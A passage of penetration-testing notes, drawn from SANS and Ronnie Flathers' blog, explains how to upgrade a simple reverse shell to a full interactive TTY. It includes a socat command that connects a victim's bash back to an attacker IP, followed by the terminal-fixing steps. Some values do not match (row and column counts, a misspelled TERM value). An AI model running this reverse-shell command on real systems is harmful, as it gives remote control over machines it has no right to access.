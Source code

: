             - The above has been referenced from SANS `Sneaky Stealthy SU in (Web) Shells <https://pen-testing.sans.org/blog/2014/07/08/sneaky-stealthy-su-in-web-shells#>`_



## Spawning a Fully Interactive TTYs Shell
        - Note:
           Ronnie Flathers has already written a great blog on Upgrading simple shells to fully interactive TTYs Hence, almost everything is taken from that blog and kept here for completion purposes.
### Many times, we will not get a fully interactive shell therefore it will/ have:
            - Difficult to use the text editors like vim
            - No tab-complete
            - No up arrow history
            - No job control
### Socat
           - Socat can be used to pass full TTY’s over TCP connections.
            - On Kali-Machine (Attackers - Probably yours)
               - socat file:`tty`,raw,echo=0 tcp-listen:4444
            - On Victim (launch):
               - socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
### If socat isn’t installed, download standalone binaries that can be downloaded from static binaries
                - Download the correct binary architecture of socat to a writable directory, chmod it, execute
### stty
            - Use the methods mentioned in Spawning a TTY Shell
##### Once bash is running in the PTY, background the shell with Ctrl-Z While the shell is in the background, examine the current terminal and STTY info so we can force the connected shell to match it
like this:

```
echo $TERM
xterm-256color
stty -a
speed 38400 baud; rows 59; columns 264; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V;   discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
- The information needed is the TERM type (“xterm-256color”) and the size of the current TTY (“rows 38; columns 116”)
- With the shell still backgrounded, set the current STTY to type raw and tell it to echo the input characters with the following command:
- stty raw -echo
- With a raw stty, input/output will look weird and you won’t see the next commands, but as you type they are being processed.
- Next foreground the shell with fg. It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal with reset.
- After the reset the shell should look normal again. The last step is to set the shell, terminal type and stty size to match our current Kali window (from the info gathered above)
$ export SHELL=bash
$ export TERM=xterm256-color
$ stty rows 38 columns 116
```